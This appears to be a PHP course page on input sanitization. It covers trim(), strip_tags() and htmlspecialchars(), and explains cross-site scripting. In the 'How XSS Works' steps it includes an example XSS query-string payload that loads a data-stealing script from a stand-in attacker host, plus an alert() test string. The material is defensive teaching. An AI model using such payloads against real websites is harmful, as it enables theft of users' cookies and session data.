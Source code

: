 ```yaml
---
layout: base
title: PHP - Sanitization
course: SDEV255
---
```


- [Sanitization](#sanitization)
  - [Validation vs Sanitization](#validation-vs-sanitization)
  - [Purpose of Sanitization](#purpose-of-sanitization)
  - [Removing Unwanted Values](#removing-unwanted-values)
    - [trim()](#trim)
    - [strip\_tags()](#strip_tags)
  - [Escaping Values](#escaping-values)
    - [Cross-Site Scripting (XSS)](#cross-site-scripting-xss)
      - [How XSS Works](#how-xss-works)
      - [XSS Example](#xss-example)
    - [htmlspecialchars()](#htmlspecialchars)
  - [Topics for Later](#topics-for-later)

# Sanitization

## Validation vs Sanitization

**Validation** - is the process of ensuring that the input matches the expected format, range, type, length, etc.

**Sanitization** - is the process of removing unwanted characters, whitespace, HTML tags, etc.

## Purpose of Sanitization

- Prevents malicious code from being injected into application
- Prevents unwanted characters from being
  - Displayed to the user
  - Stored in database
  - Stored in files
  - Sent to other applications

## Removing Unwanted Values

### trim()

- Removes whitespace from beginning and end of a string
- May optionally specify which characters to remove

```php
$cleanedInput = trim($userInput);
```

### strip_tags()

- Removes HTML tags from a string
- May optionally specify which tags to allow

```php
$cleanedInput = strip_tags($userInput);
```

## Escaping Values

**Escaping** - is the process of converting special characters to their HTML entity equivalents.

### Cross-Site Scripting (XSS)

**Cross-Site Scripting (XSS)** - is a type of injection attack where malicious scripts are injected into trusted websites.

The scripts may then:

- Steal cookies and session tokens
- Redirect the user to another website
- Send content to other applications

#### How XSS Works

1. Hacker visits a website and probes for query string vulnerabilities.
<figure>
    <span>
        <img src="images/hacker.jpg" style="width:40%;">
    </span>
</figure>

2. Hacker finds query string named `q` is not sanitized.

3. Hacker tricks other people into visiting website with following query string: `q=<script src=http://really-terrible-site/steal-data.js></script>`

4. JS file runs on victim's browser and sends data to hacker's website.

5. Hacker sells data on the dark web and buys yacht.

<figure>
    <span>
        <img src="https://media.boatsnews.com/src/images/news/articles/ima-computer-science-screen-37738.webp" style="width:40%">
    </span>
</figure>

#### XSS Example

<p class="demo">Walkthrough</p>

[Text: Example of an XSS Attack](http://localhost/phpbook/section_b/c06/)

### htmlspecialchars()

- Converts special characters to HTML entities
- May optionally specify which characters to convert and the character encoding

```php
$input = '<script>alert("XSS");</script>';
<p><?php echo htmlspecialchars($input, ENT_QUOTES, 'UTF-8'); ?></p
```

## Topics for Later

We have not covered these yet, but santization is also important for:

- Database queries
- File uploads
